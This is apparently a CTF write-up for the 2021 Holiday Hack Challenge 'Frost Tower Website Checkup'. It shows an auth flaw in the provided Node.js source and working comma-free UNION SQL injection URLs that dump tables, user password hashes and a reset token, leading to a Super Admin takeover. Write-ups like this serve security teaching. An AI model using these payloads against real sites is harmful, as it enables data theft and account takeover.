 <h1 id="objective-12-frost-tower-website-checkup">Objective 12: Frost Tower Website Checkup</h1>
<p><strong>Location: Studio, Frost Tower, 16<sup>th</sup> Floor, <a href="https://staging.jackfrosttower.com/">https://staging.jackfrosttower.com/</a></strong><br>
<strong>Troll: Ingreta Tude</strong><br>
<strong>Hints provided by Ribb Bonbowford after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md">Elf Code Python</a></strong></p>
<p>This objective is to perform a security assessment of the Frost Tower website with the <a href="https://download.holidayhackchallenge.com/2021/frosttower-web.zip">source code</a> being provided.<br>
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.</p>
<h3 id="auth-flaw">Auth flaw</h3>
<p>The application tracks the user’s session in <code>session</code> (login name, user’s role etc.).<br>
It was found that a valid session is also set, if you complete the <a href="https://staging.jackfrosttower.com/contact">contact form</a> whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.</p>
<pre><code>app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength &gt;= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
</code></pre>
<h3 id="sqli-flaw">SQLi flaw</h3>
<p>Using this unprivileged user session, an SQLi flaw in the function to get user details could be used to retrieve more information from the database.</p>
<pre><code>app.get('/detail/:id', function(req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";
    if (session.uniqueID){
        try {
            if (reqparam.indexOf(',') &gt; 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i&lt;ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){
</code></pre>
<p>As only caveat it has to be ensured, that the <strong>comma character has to be avoided</strong> in the SQL statement as the application splits up the query at the commas.<br>
Furthermore it is important to note that “union” requires that the <strong>number of columns on both sides match</strong>.<br>
Due to the fact, that the <code>union</code> database has 7 columns, it has to be ensured, that also on the right hand side of the <code>union</code> 7 columns have to be delivered.</p>
<p>This URL is the base for all following SQLi attacks:</p>
<pre><code>https://staging.jackfrosttower.com/detail/461,id union
</code></pre>
<p>During research a <a href="https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/">very good explanation</a> about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.</p>
<h3 id="getting-access-to-jack-frosts-todo-list">Getting access to Jack Frosts todo list</h3>
<p>We can obtain a list of all interesting tables in the MySQL database using this SQL statement:</p>
<pre><code>select table_name from information_schema.tables;
</code></pre>
<p>This can be rewritten for our SQLi flaw:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select table_name from information_schema.tables)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This reveals, that in addition to the tables <code>emails</code> and <code>uniquecontact</code>, which are known as they are used in the application and in the provided schema of encontact <code>encontact_db.sql</code>, there is an additional table <code>todo</code>, which seems to be the todo list we need access to.</p>
<p>Using the SQL statement</p>
<pre><code>select column_name from information_schema.columns where table_name="todo"
</code></pre>
<p>the list of columns in the table <code>todo</code> can be obtained.<br>
This can be rewritten for the SQLi as follows:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select column_name from information_schema.columns where table_name="todo")d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>we can see, that this table consists out of 3 columns: <code>id</code>, <code>note</code>, <code>completed</code>.<br>
The <code>note</code> column can then be extracted using</p>
<pre><code>select note from todo
</code></pre>
<p>Rewritten for the SQLi:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select note from todo)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This brings up Jack Frosts todo list:</p>
<ul>
<li>Buy up land all around Santa’s Castle</li>
<li>Build bigger and more majestic tower next to Santa’s</li>
<li>Erode Santa’s influence at the North Pole via FrostFest, the greatest Con in history</li>
<li>Dishearten Santa’s elves and encourage defection to our cause</li>
<li>Steal Santa’s sleigh technology and  build a competing and way better Frosty present delivery vehicle</li>
<li>Undermine Santa’s ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem</li>
<li>Force Santa to cancel Christmas</li>
<li>SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide… so the whole world sees that Frost saved the Holiday Season!!! Bwahahahahaha!</li>
<li>With Santa defeated, offer the old man a job as a <strong>clerk</strong> in the Frost Tower Gift Shop so we can keep an eye on him</li>
</ul>
<hr>
<h3 id="bonus-getting-super-admin-privileges-in-the-application">Bonus: Getting Super Admin privileges in the application</h3>
<p>Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:</p>
<pre><code>https://staging.jackfrosttower.com/detail/461,id%20union%20select%20*%20from%20users--
</code></pre>
<p>This contains for example:</p>
<ul>
<li>Super Admin</li>
<li>root@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i</li>
<li>1</li>
<li>November 23rd, 2021 11:00:00</li>
<li>December 18th, 2021 7:05:17</li>
</ul>
<hr>
<ul>
<li>Admin</li>
<li>admin@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>FTkzq07Az57M.Q8jw7ehB…h5Vdc3Vw04zQzJIt294bgwg7.aV1GC</li>
<li>2</li>
<li>December 3rd, 2021 11:00:00</li>
</ul>
<p>This shows, that we have a “Super Admin” with the email address root@localhost defined in the system.</p>
<p>Next the “<a href="https://staging.jackfrosttower.com/forgotpass">forgot password</a>” function of the application can be used to increase the privileges.<br>
When resetting the password for a user, a random token is created and stored in the user database. If we are able to get hold of this token, we can change the password of the user and have full control.</p>
<p>The token for “root@localhost” can be retrieved using this URL:</p>
<pre><code>https://staging.jackfrosttower.com/detail/-1,-id%20union%20select%20*%20from%20(select%201)a%20join%20(select%202)b%20join%20(select%203)c%20join%20(select%20F.7%20from%20(select%20*%20from%20(select%201)h%20join%20(select%202)i%20join%20(select%203)j%20join%20(select%204)k%20join%20(select%205)l%20join%20(select%206)m%20join%20(select%207)n%20union%20select%20*%20from%20users%20where%20email=%22root@localhost%22)F)d%20join%20(select%204)e%20join%20(select%20%222021-01-01%2000:00:00%22)f%20join%20(select%20%222021-01-01%2000:00:00%22)g;--
</code></pre>
<p>The timestamps in the above URL are required, as the values of these columns undergo a date conversion. This throws an exception if no valid date format is supplied:</p>
<pre><code>TypeError: /app/webpage/detail.ejs:29
    27|                             -
    28|                         &lt;% }else { %&gt;
 &gt;&gt; 29|                             &lt;%= dateFormat(encontact.date_update, "mmmm dS, yyyy h:MM:ss") %&gt;
    30|                         &lt;% } %&gt;                     
    31|                         &lt;/li&gt;
    32|                     &lt;/ul&gt;

Invalid date
    at Object.dateFormat (/app/node_modules/dateformat/lib/dateformat.js:39:17)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), &lt;anonymous&gt;:45:26)
    at Array.forEach (&lt;anonymous&gt;)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), &lt;anonymous&gt;:21:18)
    at returnedFn (/app/node_modules/ejs/lib/ejs.js:653:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:251:36)
    at View.exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:482:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:640:10)
    at Function.render (/app/node_modules/express/lib/application.js:592:3)
</code></pre>
<p>Using the URL <a href="https://staging.jackfrosttower.com/forgotpass/token/">https://staging.jackfrosttower.com/forgotpass/token/</a>{retrieved token} it is possible to set a new password for the “Super Admin” user.<br>
Being logged on as this user, a new personalized user with “Super Admin” privileges can be created.</p>
<p><strong>Achievement: Frost Tower Website Checkup</strong></p>

